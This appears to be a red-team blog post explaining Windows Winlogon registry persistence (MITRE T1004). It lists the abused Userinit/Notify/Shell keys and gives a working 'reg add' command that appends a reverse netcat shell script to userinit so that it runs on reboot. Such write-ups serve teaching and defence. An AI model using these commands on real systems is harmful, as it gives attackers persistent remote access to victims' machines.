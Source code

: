 ```yaml
---
layout: post
title: "2024-06-18-windows logon helper"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /windows-logon-helper/
---
```


# Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

```
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
```

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](<../../.gitbook/assets/image (424).png>)

Let's now add an additional item shell.cmd (a simple reverse netcat shell) to the list that we want to be launched when the compromised machine reboots:

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](<../../.gitbook/assets/image (425).png>)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](<../../.gitbook/assets/image (426).png>)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}
@spotheplanet
